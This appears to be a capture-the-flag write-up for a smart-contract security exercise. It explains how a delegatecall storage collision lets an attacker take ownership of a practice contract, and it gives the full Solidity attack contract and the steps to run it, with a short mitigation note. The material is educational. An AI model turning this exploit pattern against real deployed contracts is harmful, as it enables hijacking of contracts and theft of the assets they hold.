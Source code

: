 ```yaml
---
title: Level 16 - Presercation
slug: level-16
published: 05-24-2023
lastEdited:
---
```


## Objectives

1. Claim ownership of the contract.

## Vulnerabilities

### Delegatecall

`Delegatecall` Can be used to modify specify storage variables. In this case, we can change the address of a library
instance to our hack contract. From there, we can modify the owner by using a function with the same function signature
as in the library contract.

## Exploit

1. Write and deploy this hack contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Preservation.sol";

contract PreservationHack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint storedTime;

    Preservation target;

    constructor(address _targetAddress){
        target = Preservation(_targetAddress);
    }

    function attack() public {
        target.setFirstTime(uint(uint160(address(this))));
    }

    function setTime(uint _time) public {
        owner = msg.sender;
    }
}
```

2. Call the `attack` function which will modify the first storage variable of the Preservation contract to the
   address of ths hack contract.

3. Call the `setFirstTime` function with any uint as input to modify the owner to the hack contract.

## Suggested mitigation

Using stateless libraries prevent this type of exploit.

## Further reading

- Delegatecall exploits <ExternalLink href={"https://solidity-by-example.org/hacks/delegatecall/"} />
